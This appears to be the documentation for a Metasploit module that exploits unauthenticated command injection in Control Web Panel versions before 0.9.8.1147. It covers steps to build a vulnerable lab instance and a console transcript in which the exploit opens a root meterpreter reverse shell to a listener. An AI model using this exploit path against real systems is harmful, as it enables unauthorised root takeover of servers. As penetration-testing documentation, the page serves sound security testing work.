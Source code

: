 ## Vulnerable Application

Control Web Panel versions < 0.9.8.1147 are vulnerable to unauthenticated OS command injection. Successful
exploitation results in code execution as the root user. The results of the command are not contained
within the HTTP response and the request will block while the command is running.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start with a fresh instance of CentOS 7 x64 and run the following commands, modified from the original:
   1. `yum -y install wget`
   2. `yum -y update`
   3. reboot
   4. `cd /usr/local/src`
   5. `wget https://centos-webpanel.com/cwp-el7-latest`
   6. `sed -i 's/0\.9\.8\.[0-9]\+/0.9.8.1146/g' cwp-el7-latest`
   7. `sed -i 's/^\(sh \/scripts\/update_cwp\)/# \1/g' cwp-el7-latest`
   8. `sh cwp-el7-latest`
   9. `sed -i '1i exit 0' /usr/local/cwpsrv/htdocs/resources/scripts/update_cwp`
2. Start Metasploit
3. Run: `control_web_panel_login_cmd_exec`
4. Set RHOST and LHOST
5. Run the exploit, see that a session is opened

Check the version with `grep webpanel_version /usr/local/cwpsrv/htdocs/resources/admin/include/version.php`

## Options

## Scenarios

### CWP Version 0.9.8.1146 on CentOS 7

```
msf6 > use exploit/linux/http/control_web_panel_login_cmd_exec
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set RHOSTS 192.168.159.9
RHOSTS => 192.168.159.9
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set TARGET Unix\ Command
TARGET => Unix Command
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > check
[*] 192.168.159.9:2031 - The target appears to be vulnerable. Successfully tested command injection.
msf6 exploit(linux/http/control_web_panel_login_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (24380 bytes) to 192.168.159.9
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.9:36154) at 2023-01-19 16:05:42 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Linux 3.10.0-1160.81.1.el7.x86_64 #1 SMP Fri Dec 16 17:29:43 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```
